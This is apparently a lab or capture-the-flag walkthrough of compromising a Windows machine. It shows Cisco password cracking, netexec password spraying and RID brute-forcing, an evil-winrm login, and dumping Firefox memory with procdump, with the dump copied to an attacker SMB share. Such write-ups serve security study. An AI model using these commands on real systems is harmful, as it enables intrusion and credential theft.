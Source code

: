 # Enumeration
---
## Port 80
- In **Guest Login** page of login page:
	- ![[Pasted image 20250816055152.png]]
- In the config file:
	- ![[Pasted image 20250816055442.png]]
	- Cracked using hashcat (md5crypt - cisco-IOS)
		- ![[Pasted image 20250816055512.png]]
	- `stealth1agent`
- With further research, the other 2 are **weak Cisco Type 7 Encrypted Passwords** which can be reverse easily:
	- `rout3r` : `0242114B0E143F015F5D1E161713` : `$uperP@ssword`
	- `admin`: `02375012182C1A1D751618034F36415408` : `Q4)sJu\Y8qz*A3?d`
	- ![[Pasted image 20250816061119.png]]
# Netexec
----
- Make list of these users and passwords, then run netexec:
	- `netexec smb 10.10.10.149 -u users.txt -p passwords.txt`
	- ![[Pasted image 20250816065233.png]]
- `hazard` : `stealth1agent`

# Bruteforcing RIDs
---
- This still, does not give any access on the machine
- So we try to bruteforce RIDs:
	- `netexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute `
- This reveals 3 new users:
	- ![[Pasted image 20250816070422.png]]
- Try netexec again:
	- ![[Pasted image 20250816070616.png]]
- `chase`:`Q4)sJu\Y8qz*A3?d`

# Initial Foothold
---
- We can use `evil-winrm` to login:
	- `evil-winrm -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149`
	- ![[Pasted image 20250816070741.png]]
# Privilege Escaltion
---
- Search for processing using:
	- `ps` on meterpreter
- This reveals firefox running:
	- ![[Pasted image 20250816080113.png]]
- Dump the process using procdump and transfer:
	- `.\procdump.exe -ma 6320 firefox.dmp -accepteula`
	-  Copy on smbserver using:
		- `Copy-Item .\firefox.dmp \\10.10.16.3\share\firefox.dmp`

- Read the  dmp file:
	- `strings firefox.dmp | less`
	- ![[Pasted image 20250816080222.png]]
- This is the administrator password:
	- ![[Pasted image 20250816080248.png]]
